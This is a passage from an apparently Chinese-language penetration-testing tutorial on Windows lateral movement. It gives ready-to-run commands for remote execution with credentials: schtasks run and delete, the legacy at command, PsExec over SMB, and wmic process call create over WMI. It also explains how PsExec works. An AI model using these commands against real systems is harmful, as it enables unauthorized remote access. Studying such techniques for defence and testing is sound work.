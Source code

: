 创建计划任务，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行， /tr 指定运行的文件，/F 表示强制创建任务

```
schtasks /run /s 186.64.10.13 /u administrator /p Admin@123.. /tn test /i
```

运行任务，其中 / i 表示**立即运行**

```
schtasks /delete /s 186.64.10.13 /u administrator /p Admin@123.. /tn test /f
```

删除计划任务

![](https://image.3001.net/images/20200304/15833018684556.png!small)

低版本的操作系统可以直接使用 at 创建计划任务：

net time \\186.64.10.13 at \\186.64.10.13 18:01 c:\windows\temp\test.bat

**3.2.2PsExec(445 端口)**

PsExec 来自 Microsoft 的 Sysinternals 套件，它首先通过 SMB 连接到目标上的 ADMIN$ 共享, 上传 psexesvc.exe，然后使用服务控制管理器启动. exe，以在远程系统上创建命名管道，最后使用该管道进行 I/O

> 下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

1、通过 ADMIN$ 连接，然后释放 psexesvc.exe 到目标机器。

2、通过服务管理 SCManager 远程创建 psexecsvc 服务，并启动服务。

3、客户端连接执行命令, 服务端启动相应的程序并执行回显数据。

```
psexec \\186.64.10.13 -u Domain\User -p Password Command
```

![](https://image.3001.net/images/20200304/15833018908934.png!small)

或者返回交互式 shell:

![](https://image.3001.net/images/20200304/15833019001585.png!small)

**3.2.3WMI(135 端口)**

WMI(Windows Management Instrumentation，Windows 管理规范) 是一项核心的 Windows 管理技术；用户可以使用 WMI 管理本地和远程计算机

通过使用端口 135 上的远程过程调用 (RPC) 进行通信以进行远程访问（以及以后的临时端口）, 它允许系统管理员远程执行自动化管理任务，例如远程启动服务或执行命令。 它可以通过 wmic.exe 直接进行交互。

查询进程信息：

```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123.. process list brief
```

![](https://image.3001.net/images/20200304/15833019207800.png!small)

首先 WMI 并不支持执行命令，而是支持执行文件但是你可以加相应的参数，比如

```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123.. process call create "cmd.exe /c ipconfig"
```
